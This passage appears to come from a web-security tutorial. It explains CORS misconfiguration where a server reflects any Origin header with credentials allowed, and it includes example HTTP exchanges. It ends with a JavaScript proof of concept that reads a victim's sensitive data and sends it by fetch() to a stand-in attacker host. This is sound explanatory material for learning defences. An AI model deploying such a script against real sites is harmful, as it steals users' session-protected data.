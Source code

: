 Some applications need to provide access to a number of other domains. Since maintaining a list of allowed domains requires an ongoing effort, many take the easy route which adds more risk in creating mistakes that introduces a vulnerability.

One way developers do this is by reading the `Origin` HTTP header from requests and includes a response header stating that the requesting origin is allowed. So if an attacker adds an `Origin` header to a request or modifies its value like the following:
```http
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://attacker-owned-website.com
Cookie: sessionid=...
```
The server will then send a response like the following:
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://attacker-owned-website.com
Access-Control-Allow-Credentials: true
...
```
These headers state that access is allowed from the requesting domain (`attacker-owned-website.com`) and that the cross-origin requests can include cookies (`Access-Control-Allow-Credentials: true`) and so will be processed in-session.

Because the application accepts arbitrary origins, this means that absolutely any domain can access resources from the vulnerable domain. If the response contains any sensitive information, an attacker can retrieve these information by placing a script like the following on their website:
```js
var xhr = new XMLHttpRequest();
var url = "https://vulnerable-website.com";

xhr.onreadystatechange = function () {
	if (xhr.readyState == XMLHttpRequest.DONE) {
		fetch("https://attacker-owned-website.com/log?key=" + xhr.responseText);
	};
};
xhr.open("GET", url + "/sensitiveData", true);
xhr.withCredentials = true;
xhr.send(null);
```